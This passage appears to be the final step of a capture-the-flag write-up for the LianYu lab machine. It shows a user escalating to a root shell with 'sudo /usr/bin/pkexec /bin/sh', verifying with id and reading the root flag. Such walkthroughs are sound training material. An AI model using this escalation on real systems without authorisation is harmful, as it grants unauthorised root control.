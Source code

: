 Can use this to start a new shell as root, time to get last flag:

```text
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

# ls
root.txt

# cat root.txt  
<<hidden>>
```

All done. See you next time.

